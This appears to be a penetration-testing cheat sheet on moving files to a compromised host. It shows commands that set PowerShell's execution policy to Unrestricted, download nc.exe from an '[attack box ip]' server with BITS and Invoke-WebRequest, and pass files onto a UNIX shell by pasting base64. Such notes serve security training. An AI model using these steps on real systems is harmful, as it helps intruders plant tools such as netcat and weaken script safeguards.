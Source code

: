 - The default execution policy is ‘Restricted’ which means the system will not run Powershell scripts.
- With the following powershell command we can get the current execution policy:
````
Get-ExecutionPolicy
````
- We can now set the policy to ‘Unrestricted’:
````
Set-ExecutionPolicy Unrestricted
````
### Powershell Downloads: Start-BitsTransfer
- Another way to download files with Powershell is by using the Background Intelligent Transfer Service (BITS).
- The Start-BitsTransfer cmdlet creates a BITS transfer job to transfer one or more files between a client computer and a server.
- BITS has to be enabled on the target machine in order for it to work.
- The following command will download nc.exe from a remote web server to the C drive:
````
powershell Import-Module BitsTransfer;Start-BitsTransfer -Source http://[attack box ip]/nc.exe -Destination C:\
````
### Powershell Downloads: Invoke-WebRequest
- The Invoke-WebRequest cmdlet is simple and easy to use and is available in Powershell version 3.0 and higher.
- Downloading large files with this method may cause memory issues.  
- Recommended to use the System.Net.Web.Client method for transferring large files.
````
powershell Invoke-WebRequest -Uri http://[ip attack box]/nc.exe -OutFile C:\nc.exe
````
- For this cmdlet to work the target host needs to have at least Powershell 3.0
- You can check the version of Powershell by using the following command 
````
powershell $PSVersionTable.PsVersion
````
## I am Stuck
- If u ever happen to have a shell of a UNIX system, and cannot find a way to upload anything, this is a lifesaver trick you can try:
- On local system:
````
cat filetoupload | base64 -w 0; echo
````
- Double click on output to copy
- On Target System:
````
echo <copiedContent> | base64 -d > filetoupload
````









